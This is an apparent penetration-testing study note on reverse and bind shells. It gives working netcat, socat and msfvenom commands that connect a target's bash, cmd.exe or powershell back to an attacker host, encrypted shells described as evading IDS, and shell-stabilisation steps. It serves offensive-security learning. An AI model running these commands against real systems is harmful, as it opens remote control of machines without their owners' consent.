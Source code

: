 ## what is shell

shell is what we use to interface with command line environment (cli) eg : bash or sh in linux, cmd.exe or powershell in windows.

## Type of shells

**Reverse shell**
when the target is forced to execute code that connects back to your computer. good way to bypass firewall. however you need to configure your own network to accept the shell. 

**Blind shell**
when the code executed on the target is used to start a listener attached to a shell directly on the target.


## Tools

### netcat
perform all kinds of network interactions. netcat shells are very unstable but we can improve it.

Reverse : `nc -nvlp port`
blind : `nc target_ip port`

*Stabilise shells 1*
- first use Python to spawn a better featured bash shell
`python -c 'import pty;pty.spawn("/binbash")'`

- second get access to term cmd (eg : `clear`) 
`export TERM=screen`

- third backgraound shell : `ctrl+z`

- next turn off our own terminal echo and forground the shell.
`stty raw -echo; fg`

(dont forgot `stty -a` then add rows and columns on target shell `stty rows <number>`)

*stabilise shell 2*
rlwrap is a program which gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell;

`rlwrap nc -lvnp <port>`

then use step 3 and 4 in above steps.

### socat
netcat on steroid. socat shells are stable but syntax is difficult and also `nc` is pre-installed on most of linux. this is not case with socat.

**Reverse shell**
`socat TCP-L:<port> -`

On Windows we would use this command to connect back:
`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes` (the pipes option force powershell or cmd.exe to use Unix style standard input and output.)

On Linux we would use this cmd to connect back :
`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`

**Bind shells**

Linux Target : `socat TCP-L:<PORT> EXEC:"bash -li"`
Windows Target : `socat TCP-L:<PORT> EXEC:powershell.exe,pipes`

Attacking machine : `socat TCP:<TARGET-IP>:<TARGET-PORT> -`

**encrypted shell**

with socat we can create encrypted shell both blind and reverse. its able to bypass IDS. 

syntax : replace `TCP` with `OPENSSL` in above syntax in encrypted shells.
- generate a certificate :
`openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`

this will generate 2048 bit rsa key. 

- need to merge the two created files into a single `.pem` file.

`cat shell.key shell.crt > shell.pem`

- set up reverse shell listener
`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -` 
to connect from victim machine:
`socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`

- blind shell
taget : `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`
attacker : `socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -`

*note : you have to transfer the cert file (pem)*

### Metasploit -- multi/handler
The `auxiliary/multi/handler` module of the Metasploit framework is, like socat and netcat, used to receive reverse shells. 


### msfvenome
part of msf framework but shipped as separate tool. Used to generate payloads.

`msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`

p: payload
f : format (exe,sh)

- naming convention
`<OS>/<arch>/<payload>`

The exception to this convention is Windows 32bit targets. For these, the arch is not specified, eg : `windows/shell_reverse_tcp`
For a 64bit Windows target, the arch would be specified as normal (x64).

stageless payload denoted `_` while staged payload denotes `/` between shell and reverse. eg :`shell_reverse_tcp` and `shell/reverse_tcp`

list payloas : `msfvenom --list payloads`

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet


